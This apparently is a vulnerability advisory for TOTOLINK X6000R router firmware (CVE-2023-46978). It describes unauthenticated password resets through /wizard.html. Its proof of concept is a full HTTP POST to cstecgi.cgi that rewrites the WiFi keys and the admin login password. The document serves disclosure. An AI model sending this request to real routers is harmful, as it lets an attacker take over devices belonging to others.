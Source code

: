 # TOTOLINK X6000R V9.4.0cu.852_B20230719 Incorrect Access Control

## Product Information

Product: TOTOLINK X6000R
Firmware Version: V9.4.0cu.852_B20230719
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html

![bf7c762b1b93e968a45195f461ff5ec4](uploads/bf7c762b1b93e968a45195f461ff5ec4.png)

## Analysis

Attackers can reset **login password** & **WIFI passwords** without authentication by visiting specific pages.

visit `/wizard.html` to reset WIFI passwords:

![image-20231028113219811](uploads/image-20231028113219811.png)

and then reset login password:

![image-20231028113317033](uploads/image-20231028113317033.png)

![image-20231028113552512](uploads/image-20231028113552512.png)

Result：

![image-20231028114311735](uploads/image-20231028114311735.png)

## POC

1.Visit /wizard.html or /phone/wizard.html to reset passwords step by step.

or 2. Sending the following data packet to directly change WiFi-2.4G password to `testtest1`, and WiFi-2.4G-5G password to `testtest2`, and login password to `testtest3`.

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 427
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/wizard.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"dhcpMtu":"1500","proto":"1","dnsMode":"0","clone":"0","cloneMac":"1C:F4:08:53:15:6D","iptvEnabled":"0","iptvVer":"5","wanStrategy":"1","vlanEnabled":"0","ssid":"WiFi-2.4G","key":"testtest1","wpaMode":"1","wifiOff":"0","hssid":"0","merge":"0","ssid5g":"WiFi-2.4G-5G","key5g":"testtest2","wpaMode5g":"1","wifiOff5g":"0","hssid5g":"0","tz":"UTC+0","loginpass":"testtest3","step_index":"5","wizard":"1","topicurl":"setWizardCfg"}
```

![image-20231028115754113](uploads/image-20231028115754113.png)

![image-20231028115832823](uploads/image-20231028115832823.png)

## CVE-2023-46978